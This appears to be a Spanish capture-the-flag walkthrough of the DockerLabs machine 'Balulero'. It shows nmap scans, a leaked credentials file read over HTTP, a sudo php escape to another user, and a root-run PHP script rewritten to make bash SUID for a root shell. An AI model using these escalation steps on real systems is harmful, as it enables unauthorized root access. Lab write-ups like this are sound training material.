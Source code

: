 #MAQUINA #DOCKERLABS #FACIL
<hr>

# RECONOCIMIENTO

Vamos a resolver **Balulero** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 11:27 CET
Initiating ARP Ping Scan at 11:27
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:27, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:27
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:27, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-10 11:27:19 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.68 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 11:28 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fb:64:7a:a5:1f:d3:f2:73:9c:8d:54:8b:65:67:3b:11 (RSA)
|   256 47:e1:c1:f2:de:f5:80:0e:10:96:04:95:c2:80:8b:76 (ECDSA)
|_  256 b1:c6:a8:5e:40:e0:ef:92:b2:e8:6f:f3:ad:9e:41:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mi Landing Page - Ciberseguridad
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.54 seconds




```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 11:28 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds



```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.
## HTTP (80)

Al revisar la web que hay en el puerto 80, si inspeccionamos y nos vamos a **Console** :

   ```bash

Se ha prohibido el acceso al archivo .env, que es donde se guarda la password de backup, pero hay una copia llamada .env_de_baluchingon visible jiji

```

Y si nos vamos a http://172.17.0.2/.env_de_baluchingon :

   ```bash

balu:balubalulerobalulei

```


# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
   
balu@1f27ab38ef44:~$ sudo -l
Matching Defaults entries for balu on 1f27ab38ef44:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User balu may run the following commands on 1f27ab38ef44:
    (chocolate) NOPASSWD: /usr/bin/php



```

Vemos **php** con permisos SUDO :
   ```bash
   
balu@1f27ab38ef44:~$ sudo -u chocolate php -r "system('/bin/bash');"
chocolate@1f27ab38ef44:/home/balu$ 

```

YA ESTAMOS COMO CHOCOLATE.

AL hacer **ps -ef** , vemos que root ejecuta un script de chocolate, todo el rato :

   ```bash
   
chocolate@1f27ab38ef44:/opt$ ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD                                                                                                               
root           1       0  0 10:26 ?        00:00:00 /bin/sh -c service apache2 start && a2ensite 000-default.conf && service ssh start && while true; do php /opt/script.php; sleep 5; done


```

Al ser nuestro script, le ponemos otros permisos menos restrictivos (y root pueda ejecutarlo) y lo modificamos :

   ```bash
   
chocolate@1f27ab38ef44:/opt$ chmod 777 script.php 
chocolate@1f27ab38ef44:/opt$ cat script.php 
<?php system('chmod +s /usr/bin/bash'); ?>
chocolate@1f27ab38ef44:/opt$ ls -la /usr/bin/bas
base32    base64    basename  bash      bashbug   
chocolate@1f27ab38ef44:/opt$ ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash
chocolate@1f27ab38ef44:/opt$ /usr/bin/bash -p
bash-5.0# whoami
root
```

**YA ESTAMOS COMO ROOT.**